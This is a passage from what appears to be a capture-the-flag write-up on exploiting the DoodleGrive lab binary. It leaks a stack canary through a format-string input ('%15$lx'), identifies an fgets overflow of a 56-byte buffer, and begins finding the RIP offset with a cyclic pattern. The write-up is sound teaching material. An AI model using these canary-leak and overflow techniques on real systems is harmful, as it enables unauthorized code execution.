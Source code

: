     16: 403320:
    17: 402b50:
    18: 0:
    19: 100000000:
    20: 7fff573f1318:
    21: 4021ed:
    22: 0:
    23: 1900000000:
    24: 21:
    25: 2000000000:
    26: 0:
    27: 0:
    28: 0:
    29: 0:
    30: 0:



15 looks like the best candidate to be the carary. If I run the loop a
couple more times, most of the values stay basically the same, but 15 is
completely random. That's the canary.

The output looks like this:



    oxdf@hacky$ ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    %15$lx
    Enter password for ae1d5d1e957b4200:



#### Getting BOF Offset

Next I'll get the offset of the overflow to overwrite RIP. The
`entered_password` buffer is 56 bytes long, but it's read into unsafely
up to 400 bytes:



    fgets(entered_password,400,(FILE *)stdin);



I'll create a pattern:



    oxdf@hacky$ pattern_create -l 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag



I'll set a break point at the place where the canary is checked:


